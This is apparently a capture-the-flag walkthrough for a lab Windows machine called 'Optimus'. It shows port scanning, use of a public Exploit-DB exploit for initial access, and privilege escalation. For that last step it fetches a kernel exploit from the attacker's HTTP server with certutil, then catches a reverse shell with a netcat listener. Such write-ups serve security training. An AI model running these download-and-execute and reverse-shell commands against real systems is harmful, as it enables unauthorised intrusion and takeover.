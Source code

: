 # ****Optimus****

```bash
rustscan -a 10.10.10.11 --ulimit 5000
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f116e3b2-f0d5-477f-9624-492d78f96a5c)

```bash
nmap -A 10.10.10.11 -Pn
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c1d3775c-ccc7-466f-9b64-95b841fa3f00)

> http://10.10.10.11:8500/
> 
![image](https://github.com/lufffe/Writeups/assets/90646635/1e20e059-f828-4e87-8f76-690b56aad4e9)

https://www.exploit-db.com/exploits/50057
![image](https://github.com/lufffe/Writeups/assets/90646635/3628b5a0-bc66-44a2-bad9-330a77538013)

mudar lhost

http://10.10.10.11:8500/userfiles/file/nomedoarquivo
![image](https://github.com/lufffe/Writeups/assets/90646635/d9dd529d-6c8e-4425-94cd-9c25865922eb)

c:\Users\tolis\Desktop>
```bash
type user.txt
```

```bash
python [windows-exploit-suggester.py](http://windows-exploit-suggester.py) —update
```

```bash
python [windows-exploit-suggester.py](http://windows-exploit-suggester.py/) --database 2024-01-11-mssb.xlsx --systeminfo systeminfo.txt
```

![image](https://github.com/lufffe/Writeups/assets/90646635/e43e3080-efa6-4ffc-9457-153830745231)

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

```bash
python -m http.server 80
```

```bash
cd c:\Users\tolis\Desktop
```

```bash
certutil -urlcache -split -f "http://10.10.14.6/MS10-059.exe" app.exe
```

```bash
sudo nc -lnvp 443
```

```bash
app.exe 10.10.14.6 443
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bf04f2fd-620d-43ca-828a-28edfef411de)

c:\Users\Administrator\Desktop>

```bash
type root.txt
```
